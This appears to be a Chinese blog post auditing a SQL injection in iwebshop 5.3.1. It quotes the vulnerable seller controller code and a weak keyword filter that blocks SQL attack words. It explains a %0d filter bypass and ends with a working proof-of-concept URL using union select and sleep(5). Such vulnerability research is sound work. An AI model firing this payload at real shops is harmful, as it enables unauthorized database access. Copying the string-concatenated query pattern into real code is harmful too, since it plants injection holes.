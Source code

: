 ```yaml
---
title: Iwebshop sql注入
date: 2019-01-19T18:12:19+08:00
lastmod: 2019-01-19T18:12:19+08:00
author: bluebird
categories: ["网络安全"]
tags: ["漏洞分析", "代码审计"]
---
```


### iwebshop 最新版本5.3.1 前台注入

iwebshop最新版存在一个非常弱智的注入漏洞
<!--more-->

主要导致原因 `$id        = IFilter::act(IReq::get('id'));`

开发者忘记写成 `IFilter::act(IReq::get('id'), 'int')`了,导致直接注入. 在其他文件也存在这个问题. 

这个文件需要商家账号才可以访问,是可以注册的

漏洞点 `controllers/seller.php` 函数`categoryAjax`

```php
    public function categoryAjax()
    {
        $id        = IFilter::act(IReq::get('id'));
        $parent_id = IFilter::act(IReq::get('parent_id'));
        if($id && is_array($id))
        {
            foreach($id as $category_id)
            {
                $childString = goods_class::catChild($category_id);//父类ID不能死循环设置成其子分类
                if($parent_id > 0 && stripos(",".$childString.",",",".$parent_id.",") !== false)
                {                    die(JSON::encode(array('result' => 'fail')));                }
            }
```

直接将id传入到`catChild`

```
 public static function catChild($catId,$level = 1)
    {        if($level == 0)        {
            return $catId;
        }

        $temp   = array();
        $result = array($catId);        $catDB  = new IModel('category');
        while(true)
        {
            $id = current($result);
            if(!$id)
            {
                break;
            }
            $temp = $catDB->query('parent_id = '.$id);
```



直接将id拼接到sql查询中.. 这个cms有一点sql过滤,但是非常弱,也就ctf入门题的水平

`lib/core/util/filter_class.php`

```
   public static function string($str,$limitLen = false)
    {
        $str = trim($str);
        $str = self::limitLen($str,$limitLen);
        $str = htmlspecialchars($str,ENT_NOQUOTES);
        return self::addSlash($str);
    }
    
  
    public static function word($str)
    {
        $word = array("select ","select/*","update ","update/*","delete ","delete/*","insert into","insert/*","updatexml","concat","()","/**/","union(");
        foreach($word as $val)
        {
            if(stripos($str,$val) !== false)
            {
                return '';
            }
        }
        return self::removeEmoji($str);
    }

```

不允许`union `加空格,可是空格的代替很多 比如 `%0d`



poc 
```
/index.php?controller=seller&action=categoryAjax&id[]=1%20and%201=1%20union%0dselect%0d1,2,3,4,5,6,7,8,sleep(5)

```

